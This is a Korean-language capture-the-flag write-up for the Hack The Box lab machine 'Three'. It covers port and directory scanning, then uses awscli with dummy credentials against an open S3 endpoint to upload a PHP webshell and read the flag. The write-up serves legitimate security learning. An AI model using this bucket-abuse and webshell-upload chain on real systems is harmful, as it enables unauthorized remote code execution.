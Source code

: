 ```yaml
---
title: HTB Three Write-up
categories: [HackTheBox, StartingPoint]
tags: [HackTheBox, Gobuster, AWS, S3, awscli]
image:
    path: /assets/image_post/20240214231540.png
---
```


![](../assets/image_post/20240214231721.png)

우선 port scan 결과를 먼저 확인해보자. ssh와 http port가 기본 포트에 맞추어 열려있다.
``` bash
┌──(root㉿fb940ca6010c)-[/rfi]
└─# nmap -sC -sV 10.129.227.248
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 14:17 UTC
Nmap scan report for 10.129.227.248
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
```

이전 문제와는 조금은 다르지만 유사한 점이 있다. IP로 해당 사이트가 접근 되긴 하지만, 다른 페이지로의 이동은 되지 않는다. 할당 된 ip로 접근 시 아래와 같이 웹에 접근 된다.
![](../assets/image_post/20240214232544.png)

다만, 사이트의 기능을 눌러보면 아래와 같이 접근되지 않는 부분이 있다. 아마 `/etc/hosts`에 등록을 해주어야 하는 것 같다.
``` bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```
![](../assets/image_post/20240214232658.png)

그렇다면 사이트 url을 알아야 등록이 가능한데, 나의 경우 페이지 소스를 보며 찾았다. 굳이 페이지 소스가 아니라 CONTANT에 기재된 이메일 주소를 통해 유추해볼 수도 있다. 이메일 주소에 포함된 'thetoppers.htb'가 site url로 추정된다.
``` html
      <div class="w3-col m6 w3-large w3-margin-bottom">
        <i class="fa fa-map-marker" style="width:30px"></i> Chicago, US<br>
        <i class="fa fa-phone" style="width:30px"></i> Phone: +01 343 123 6102<br>
        <i class="fa fa-envelope" style="width:30px"> </i> Email: mail@thetoppers.htb<br>
      </div>
      <div class="w3-col m6">
```

`/etc/hosts`를 수정해도 위의 페이지는 들어가지지 않는다. 그렇다면 접근 가능한 다른 url이 있는지 파악하기 위해 gobuster를 사욜해보고자 한다. 결과는 아래와 같고 사용한 리스트 파일은 [링크](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt)에서 다운 가능하다.
``` bash
┌──(root㉿fb940ca6010c)-[/]
└─# gobuster dir -u http://thetoppers.htb/ -w ./dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://thetoppers.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ./dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://thetoppers.htb/images/]
/index.php            (Status: 200) [Size: 11952]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

수집된 경로를 보아 /images에 접근 가능한 듯하다. 접근 해보니 아래와 같이 Directory Listing 취약점이 존재하는 것을 알 수 있다. 
![](../assets/image_post/20240214233724.png)

다만 저 경로 외에 더 이상의 접근은 되지 않아 별 다른 정보를 획득하지는 못했다. 그렇다면 우선 남은 추가 정보는 Apache 버전 정보이다.
```
Apache/2.4.29 (Ubuntu) Server at thetoppers.htb Port 80
```

gobuster dns를 사용하여 찾아도 별다른 정보를 얻을 수 없다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dns -d thetoppers.htb -w /usr/share/wordlists/dnsmap.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     thetoppers.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 17576 / 17577 (99.99%)
===============================================================
Finished
===============================================================
```

지금 이 부분은 다른 사람의 writeup을 참고한 부분이다. 원래 아래와 같이 vhost로 스캔하면 s3.thetoppers.htb가 수집되어야 하는데, 나의 경우 수집이 되지 않는다. 무언가 불안정한가...
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster vhost -u http://thetoppers.htb -w subdomains-top1million-5000.txt
```
s3.thetoppers.htb에 대한 정보를 획득했다는 가정하에, 정상접근을 위해선 이전과 마찬가지로 /etc/hosts에 추가해주어야 한다.
``` bash
10.129.188.193  thetoppers.htb s3.thetoppers.htb
```

s3의 경우 AWS 버킷과 관련된 것으로 접근을 위해 awscli를 설치하자. awscli를 설치 후 aws 명령어로 해당 서버에 접속을 시도해보자. 아래와 같이 설정이 되지 않아 오류가 발생한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Unable to locate credentials. You can configure credentials by running "aws configure".
```

다행히 별도의 값이 있어야 하지는 않고 아래와 같이 임의의 값을 넣어 주면 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test
```

이후 다시 해보니 아래와 같이 연결이 불가하다고 뜨며 주소가 나타난다. 내가 원했던 's3.thetoppers.htb'가 아니라 조금 많이 긴 주소인 것을 보니 무언가 잘못된 듯 싶다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 ls s3://s3.thetoppers.htb

Could not connect to the endpoint URL: "https://s3.thetoppers.amazonaws.com/s3.thetoppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

명령어 인자를 아래와 같이 변경 후 접근 시 성공적으로 접근 된다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls

2024-02-15 03:33:23 thetoppers.htb
```

우선 어떤 파일들이 있는지 확인해보자. index.php와 jpg 파일 외에 별 다른 파일은 보이지 않는다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls
2024-02-15 05:38:01 thetoppers.htb

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb
                           PRE images/
2024-02-15 05:38:01          0 .htaccess
2024-02-15 05:38:02      11952 index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb ls thetoppers.htb/images/
2024-02-15 05:38:01      90172 band.jpg
2024-02-15 05:38:02     282848 band2.jpg
2024-02-15 05:38:02    2208869 band3.jpg
2024-02-15 05:38:01      77206 final.jpg
2024-02-15 05:38:01      69170 mem1.jpg
2024-02-15 05:38:01      39270 mem2.jpg
2024-02-15 05:38:02      64347 mem3.jpg
```

그렇다면 awscli로 웹쉘을 업로드하여 동작시켜보고자 한다. 웹쉘은 아래의 경로에서 선택하여 cmd.php라는 이름으로 저장하였다.
> https://github.com/cspshivam/webshells

아래는 기존에 존재하던 index.php를 다운로드하고, 내가 작성한 cmd.php를 갖은 경로에 업로드 하는 과정이다. `aws s3 --endpoint=http://s3.thetoppers.htb ls`로 수집한 경로 `thetoppers.htb`에 대해 아래와 같이 접근해야한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp s3://thetoppers.htb/index.php ./index.php

download: s3://thetoppers.htb/index.php to ./index.php

┌──(root㉿kali)-[/home/user]
└─# aws s3 --endpoint=http://s3.thetoppers.htb cp ./cmd.php s3://thetoppers.htb/cmd.php
upload: ./cmd.php to s3://thetoppers.htb/cmd.php
```
이제 업로드한 경로를 통해 접근해보면 아래와 같이 성공적으로 웹쉘 업로드가 됐다.
![](../assets/image_post/20240216102926.png)

문제를 풀 때 대체적으로 flag가 존재하는 파일의 이름이 flag.txt이기에 아래와 같이 find 명령어로 찾아보았고, 바로 결과가 나왔다.
![](../assets/image_post/20240216103050.png)

이제 flag 파일을 출력하면 정답을 확인할 수 있다.
![](../assets/image_post/20240216103158.png)

awscli를 처음 사용해보기에, 유익했다. 회사의 자산에 대해서도 위험 여부 판단을 할 때 사용하면 좋을 것 같다.
![](../assets/image_post/20240216103322.png)